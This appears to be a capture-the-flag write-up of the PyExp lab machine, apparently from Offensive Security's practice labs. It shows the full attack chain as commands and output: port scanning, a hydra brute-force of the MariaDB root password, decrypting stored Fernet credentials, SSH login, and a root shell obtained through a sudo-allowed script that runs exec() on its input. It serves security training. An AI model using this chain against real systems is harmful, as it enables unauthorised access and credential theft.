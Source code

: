 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/pyexp-1,534/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery

As usual we start with a simple port scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- 192.168.159.118
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 20:46 CEST
Nmap scan report for 192.168.159.118
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
1337/tcp open  waste
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 29.18 seconds

$ nmap -Pn -p1337,3306 -sV 192.168.159.118
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 20:48 CEST
Nmap scan report for 192.168.159.118
Host is up (0.026s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds
```

---

# exploitation
## `mariadb` weak password
```bash
$ hydra -I -V -l root -P /usr/share/wordlists/rockyou.txt 192.168.159.118 mysql
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-29 20:56:51
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.159.118:3306/
[ATTEMPT] target 192.168.159.118 - login "root" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.159.118 - login "root" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.159.118 - login "root" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.159.118 - login "root" - pass "password" - 4 of 14344399 [child 3] (0/0)
...
[3306][mysql] host: 192.168.159.118   login: root   password: prettywoman
```

> We got credentials! `root:prettywoman`
{: .prompt-info}

Digging through the database.
```bash
$ mysql -h 192.168.159.118 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 5082
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.026 sec)

MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.025 sec)

MariaDB [data]> select * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.027 sec)
```

> Googling `fernet cred` shows that `fernet` is a symmetric encryption algorithm. As we  seem to have a cipher text and a key we are able to decrypt the cipher text with the following python script.
{: .prompt-info}

```python
from cryptography.fernet import Fernet

key = 'UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0='
f = Fernet(key)
token = f.decrypt(b"gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=")

print(token)
```

Execute the script
```bash
$ python3 fernet.py
b'lucy:wJ9`"Lemdv9[FEw-'
```

> We got credentials!
{: .prompt-info}

Lets try to login via `ssh`.
```bash
$ ssh lucy@192.168.159.118 -p 1337
The authenticity of host '[192.168.159.118]:1337 ([192.168.159.118]:1337)' can't be established.
ED25519 key fingerprint is SHA256:K18aoM62L+/GHVzkZJScoh+S91IW1EPPvsc1K7UuVbE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.159.118]:1337' (ED25519) to the list of known hosts.
lucy@192.168.159.118's password: 
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$ id
uid=1000(lucy) gid=1000(lucy) groups=1000(lucy),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

> We got `ssh` access :)
{: .prompt-info}

---

# post exploitation
## get first flag
```bash
lucy@pyexp:~$ ls
local.txt  user.txt
lucy@pyexp:~$ cat local.txt 
e******************************4
```

## privilege escalation
We start by checking `sudo` privileges.
```bash
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

> We are allowed to execute `python2` with the parameter `/opt/exp.py`
{: .prompt-info}

Lets have a look what `/opt/exp.py` does.
```python
uinput = raw_input('how are you?')
exec(uinput)
```

> The `exec()` method is juicy! We can execute our own `python` code through it :)
{: .prompt-info}

Payload to get a shell: `import pty;pty.spawn("/bin/bash")`  
  
Lets escalate!
```bash
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?import pty;pty.spawn("/bin/bash")
root@pyexp:/home/lucy# id
uid=0(root) gid=0(root) groups=0(root)
```

> We are `root`!
{: .prompt-info}

## get second flag
```bash
root@pyexp:/home/lucy# cd /root/
root@pyexp:~# ls
proof.txt  root.txt
root@pyexp:~# cat proof.txt 
6******************************f
```

Pwned! <@:-)
